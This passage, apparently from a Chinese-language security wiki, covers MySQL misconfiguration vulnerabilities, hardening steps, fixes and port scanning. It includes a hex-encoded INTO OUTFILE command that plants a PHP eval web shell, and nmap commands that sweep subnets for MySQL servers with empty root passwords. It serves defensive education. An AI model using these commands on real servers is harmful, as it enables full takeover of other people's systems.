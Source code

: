 	//禁止MySQL对本地文件存取
	//在my.cnf中添加local-infile=0,或者在启动mysql时加参数local-infile=0
	mysqld_safe --user=mysql --local-infile=0 &
	 
	//管理用户权限
	mysql>show grant //显示授权
	mysql>revoke delete on *.* from 'root' //移除root用户的delete权限
	Mysql的用户权限设置可参考Mysql安全配置根据实际需要给予所需的最低权限。

**3、错误配置及利用**

---
　　Mysql配置导致的漏洞往往都是多个因素共同造成的，最常见的就是网站中存在phpmyadmin等数据库管理工具或者Mysql允许远程连接，加上Mysql没有修改掉默认的用户或者使用了弱口令。这导致了攻击者使用其得到的用户权限进行数据库操作。若在配置Mysql时对用户权限进行了限制，则可大大减少因此遭受的损失。
　　在攻击者获取到Mysql数据库操作权限后，若服务器没有禁止MySQL对本地文件存取，那么攻击者可以通过写入shell，最终完全控制服务器。示例是将

	<?php eval($_REQUEST[cmd]);?>
写入到/www/shell.php文件中。

	mysql> select 0x3c3f706870206576616c28245f524551554553545b636d645d293b3f3e  into outfile '/www/shell.php'
	
**4、实际案例**

---
[多玩某站MYSQL弱口令](http://www.wooyun.org/bugs/wooyun-2010-0101070)

[暴走漫画某数据泄露可导致大量用户信息泄露](http://www.wooyun.org/bugs/wooyun-2010-0102165)

[某高校分站敏感信息泄露，且存在mysql弱口令](http://www.wooyun.org/bugs/wooyun-2010-0106104)

[自动化枚举系列#1 UC某服务弱口令导致可内网渗透](http://www.wooyun.org/bugs/wooyun-2010-042097)

**5、修复方案**

---
及时更新Mysql到最新版本，可在[mysql官方下载地址](http://www.mysql.com/downloads/)找到下载地址。

若Mysql配置中存在问题可参考本条目Mysql服务器架设。

**6、漏洞扫描及发现**

---
Mysql默认端口为3306，当数据库允许远程连接时该端口会对外开放。 通过对3306端口进行扫描就可以找到对外开放的Mysql服务器。

	//扫描
	nmap -n --open -p 3306 X.X.X.X/24
 
	//使用root用户和空口令连接Mysql服务器
	mysql -h X.X.X.X -u root
通过nmap扫描mysql相关的漏洞

	//检测mysql空口令
	nmap -p3306 --script=mysql-empty-password.nse 192.168.5.1
 
//检测nmap中支持扫描的所有MYSQL漏洞

	nmap -p3306 --script=mysql* 192.168.5.1
	
**7、相关资源**

---